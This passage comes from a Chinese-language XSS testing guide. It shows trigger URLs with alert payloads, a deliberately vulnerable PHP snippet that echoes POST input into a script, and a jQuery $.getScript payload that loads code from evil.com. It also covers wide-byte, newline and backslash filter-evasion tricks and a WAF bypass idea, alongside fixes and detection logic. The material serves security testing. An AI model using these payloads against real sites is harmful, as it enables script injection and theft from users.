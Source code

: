 触发：`http://localhost/test/reflection_xss/xss_script_encode_value.php?name=test&TESTSIMBA%22%3Balert(902237484)%3B%2F%2Ftst`  
修复：直接对需要输出的整串参数做javascriptEncode。  
2). 当原来请求是get 时，将 payload 接在get 参数后面，但使用 post 方式去请求（随便添加一个post参数如 simbatestpost=3），有些业务对 post请求直接没有防御，导致xss。  
``` php
<?php
  $name = $_REQUEST["name"];
?>

 <script>
        var aa = "<?php if ($_SERVER['REQUEST_METHOD'] == 'POST')   
				echo $name; else echo htmlspecialchars($name, ENT_QUOTES);?>";
</script>
```
触发：POST `http://localhost/test/reflection_xss/xss_script_nodefense_post.php?name=test%22%3Balert(906539215)%3B%2F%2Ftst`  body:simbatestxsspost=3  
修复：无论什么样的请求方式， 都需要做javascriptEncode 后输出。  


## 三、测试tips分享  
1. 测试时不止要测试正常的 < > " 是否编码转义，也要测试   &#38;quot; &#38;gt; &#38;lt; 之类是否会被反转回来，可以 console 观察下是否引起浏览器脚本执行错误。测试是否可以利用页面引入的 jQuery 来进行 xss 利用如 ";$.getScript &#96;http://evil.com/test.js` ;//  
2. 测试是否根据关键字来过滤，在使用一些正则过滤特征字符串时，往往会指定匹配的递归次数，在满足长度条件的情况下，我们可以提交重复 n 次的 poc，以绕过过滤逻辑。  
3. 测试特殊字符  
宽字节：html charset=gbk 类型下，插入 `%c0%22`，如果业务插入 `\` 成为 `%c0\"`， 这样导致 `%c0\` 成为一个乱码字符，从而闭合引号。  
换行符（相当于空格）：如果输入会在业务代码的注释里，可以插入 `bbbb%oaalert(1);//`  这样会另起一行，成功执行弹框。  
反斜杠：插入反斜杠导致业务代码引号闭合失败，而且还有 js 续行的作用。  
综合案例：  
![xss_1](../pictures/xss_1.png)  
业务代码会把输入的 `\` 转换成 `\\`，对于`var searchOrder` 那一行来说， 我们输入 `aaaa%c0\%0a` 变成 `aaaa%c0\\%0a`，由于 charset 是 gbk，那么 `%c0\` 是一个乱码字符，而 剩下的一个 `\` 起了续行作用，那么 `var searchOrder` 引号内的就被当作一个完整字符串，而不会引起语法错误，这样 就能执行注释被换行后的代码。  
4. 如果站点布有waf，或许有负载均衡问题，同时发多个包，可能存在放过的情形。  
5. 从自动化检测角度来看，可以在参数中带入payload，然后检测页面中特定标签特定属性内是否含匹配的未编码字符，比如 `<script>aaa</script>` or `<a href=bbb onmouseover=ccc>`，获取 script tag 的内容 or 获取 a tag href/onmouserover attr 的 内容是否match/equal。去误报逻辑：且从文本开头到匹配字段中的字符中单双引号都是成双出现，左括号括号数量比右括号数据多。  


## Reference
[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)